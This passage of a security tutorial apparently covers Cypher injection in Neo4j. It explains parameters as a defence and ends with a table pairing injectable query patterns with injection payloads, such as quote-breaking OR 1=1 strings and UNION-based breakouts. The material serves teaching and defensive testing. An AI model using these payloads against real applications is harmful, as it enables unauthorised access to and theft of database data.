 ```sql
MATCH (a: Actor) RETURN a.name UNION RETURN 'some name' as name 
```

### Advanced

Cypher supports more advanced logic in the form of procedures and functions.

**Procedures** — generate data. Used only in a “CALL” statement. For example, list all labels.

**Functions** — manipulate data. For example, determine the length of a list. Unlike procedures, they return a single value. Can be used anywhere where expressions are allowed, such as WITH statements, as well as WHERE and RETURN.

```sql
CALL db.labels() YIELD label RETURN label 
WITH [1,2,3] as l RETURN size(l) 
```

### Parameters

Neo4j supports providing parameters to queries. Parameters let developers pass input safely, separately from the query, so injections are not possible.

The parameters are passed to the server by the client separately from the query itself and can have different value types, such as string, list, int, bool, or a map.

In the query, parameters are referred to using the dollar sign ($).

Parameters are a great way for developers to avoid injections, but there are limitations to parameters. For example, they cannot be used to denote labels or field names.

## Injections

### How to inject

Injections can be found anywhere in the query. Naturally, the MATCH and WHERE statements are common scenarios.

When we have found an injection, the way to exploit it depends on the location within the query. Below is a table of different injection locations and exploitation examples:

|Injectable query|Injection|
|---|---|
|`MATCH (o) WHERE o.Id='{input}'`|`' OR 1=1 WITH 0 as _l00 {…} RETURN 1 //`|
|`MATCH (o) WHERE '{input}' = o.Id   MATCH (o) WHERE {input} in [different, values]`|`'=' {…} WITH 0 as _l00 RETURN 1 //`|
|`MATCH (o) WHERE o:{input}`|`a {…} WITH 0 as _l00 RETURN 1 //`|
|`` MATCH (o) WHERE o:`{input}` ``|``a` {...} WITH 0 as _l00 RETURN 1 //``|
|`MATCH (o {id:'{input}'})`|`'}) RETURN 1 UNION MATCH (n) {...} RETURN 1 //`|
|`MATCH (o:{input})`|`a) RETURN 1 UNION MATCH (n){...} RETURN 1//`|
|``MATCH (o:`{input}`)``|``a`) RETURN 1 UNION MATCH (n){...} RETURN 1 //``|
|`MATCH (o)-[r {id:'{input}'})]-(o2)`|`'}]-() RETURN 1 UNION MATCH (n){...} RETURN 1//`|
|`MATCH (o)-[r:{input}]-(o2)`|`a]-() RETURN 1 UNION MATCH (n){...} RETURN 1 //`|
|``MATCH (o)-[r:`{input}`]-(o2)``|``a`]-() RETURN 1 UNION MATCH (n){...} RETURN 1 //``|
